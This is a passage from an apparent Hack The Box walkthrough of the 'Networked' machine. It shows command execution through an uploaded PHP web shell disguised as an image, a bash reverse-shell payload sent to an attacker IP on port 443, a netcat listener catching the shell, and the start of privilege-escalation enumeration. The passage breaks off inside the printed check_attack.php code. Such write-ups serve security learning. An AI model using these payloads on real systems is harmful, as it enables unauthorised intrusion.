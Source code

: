 ```http
GET /uploads/10_10_14_9.php.jpg?cmd=whoami HTTP/1.1
Host: 10.10.10.146

...
apache
```

Our simple command shell is working and we can see that we're running as user `apache`.

```http
GET /uploads/10_10_14_9.php.jpg?cmd=bash+-i+>%26+/dev/tcp/10.10.14.9/443+0>%261 HTTP/1.1
Host: 10.10.10.146
```

```bash
luc@kali:~/HTB/Networked$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:49104.
bash: no job control in this shell
bash-4.2$ id
uid=48(apache) gid=48(apache) groups=48(apache)
```

## Privilege escalation

### Apache -> Guly

```bash
bash-4.2$ cat /home/guly/user.txt
cat: /home/guly/user.txt: Permission denied
```

User `apache` doesn't have access to read `user.txt`

```bash
bash-4.2$ cd /home/guly/
bash-4.2$ ls -R
.:
check_attack.php  crontab.guly  user.txt
bash-4.2$ cat check_attack.php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
```